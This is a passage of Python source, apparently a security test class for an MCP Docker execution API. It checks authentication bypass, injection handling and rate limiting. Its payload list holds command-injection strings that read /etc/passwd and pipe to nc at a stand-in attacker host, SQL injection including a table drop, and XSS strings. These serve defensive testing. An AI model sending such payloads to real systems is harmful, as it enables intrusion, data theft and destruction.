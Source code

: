 ```python
            {"headers": {}},
            # Invalid token format
            {"headers": {"Authorization": "Bearer invalid"}},
            # Expired token
            {"headers": {"Authorization": "Bearer " + self._expired_token()}},
            # Wrong algorithm token
            {"headers": {"Authorization": "Bearer " + self._wrong_algo_token()}},
        ]
        
        async with aiohttp.ClientSession() as session:
            for test in test_cases:
                async with session.post(
                    f"{self.base_url}/mcp/docker/execute",
                    json={"tool": "docker_ps"},
                    **test
                ) as response:
                    if response.status != 401:
                        self.results.append({
                            "vulnerability": "Authentication Bypass",
                            "severity": "CRITICAL",
                            "details": f"Request succeeded with: {test}"
                        })
    
    async def test_injection_attacks(self):
        """Test for various injection vulnerabilities."""
        payloads = {
            "command_injection": [
                "; cat /etc/passwd",
                "$(whoami)",
                "`id`",
                "| nc attacker.com 1234"
            ],
            "sql_injection": [
                "' OR '1'='1",
                "'; DROP TABLE users; --",
                "1' UNION SELECT * FROM secrets--"
            ],
            "xss": [
                "<script>alert('XSS')</script>",
                "javascript:alert('XSS')",
                "<img src=x onerror=alert('XSS')>"
            ]
        }
        
        # Test each injection type
        for attack_type, payloads_list in payloads.items():
            for payload in payloads_list:
                # Test in various parameters
                await self._test_payload(attack_type, payload)
    
    async def test_rate_limiting(self):
        """Test rate limiting effectiveness."""
        async with aiohttp.ClientSession() as session:
            # Send 200 requests rapidly
            tasks = []
            for i in range(200):
                task = session.get(f"{self.base_url}/health")
                tasks.append(task)
            
            responses = await asyncio.gather(*tasks)
            
            # Check if rate limiting kicked in
            blocked = sum(1 for r in responses if r.status == 429)
```